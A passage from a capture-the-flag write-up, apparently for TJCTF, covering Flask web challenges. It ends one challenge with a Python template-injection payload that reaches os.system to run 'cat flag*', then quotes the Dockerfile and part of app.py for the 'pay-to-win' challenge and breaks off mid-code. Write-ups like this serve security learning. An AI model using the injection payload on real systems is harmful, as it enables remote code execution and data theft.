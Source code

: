 RCE is there. 🥳

![](/uploads/{{ page.permalink }}/ss6.png)

The last step is to run `cat flag*` and that will print the flag:

```py
print(''.__class__.__mro__[1].__subclasses__()[-4].__init__.__globals__['system']('cat flag*'))
```

# pay-to-win

> This service is wayyyyy to expensive. I can't afford that! I did hear that premium users get a flag though...
>
> 🌐 [pay-to-win.tjc.tf](https://pay-to-win.tjc.tf/){:target="_blank"}
>
> 📦 *server.zip*

In this challenge we have another Flask app.

![](/uploads/{{ page.permalink }}/ss7.png)

I searched for the flag and found out that it's always inside `/secret-flag-dir/flag.txt`.

```dockerfile
FROM python:3.8.5-slim-buster

RUN pip install flask gunicorn pyjwt[crypto]
COPY . /app
RUN mkdir /secret-flag-dir; mv /app/flag.txt /secret-flag-dir/flag.txt
WORKDIR /app

EXPOSE 5000

CMD ["gunicorn", "-b", "0.0.0.0:5000", "app:app", "-t", "4"]
```

This may indicate that an LFI (local file inclusion) vulnerability could be enough to retrieve the flag, since we have already determined the flag's exact filename and path.

I will start by showing the whole code of `app.py`, and go back at the interesting parts.

```py
from flask import Flask, request, render_template, redirect, make_response
from base64 import b64encode, b64decode
import hashlib
import random
import json

app = Flask(__name__)
users = {}


def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


@app.route('/')
def index():
    if request.cookies.get('data') is None or request.cookies.get('hash') is None:
        return redirect('/login')

    data = request.cookies.get('data')
    decoded = b64decode(data)
    data_hash = request.cookies.get('hash')
    payload = json.loads(decoded)
```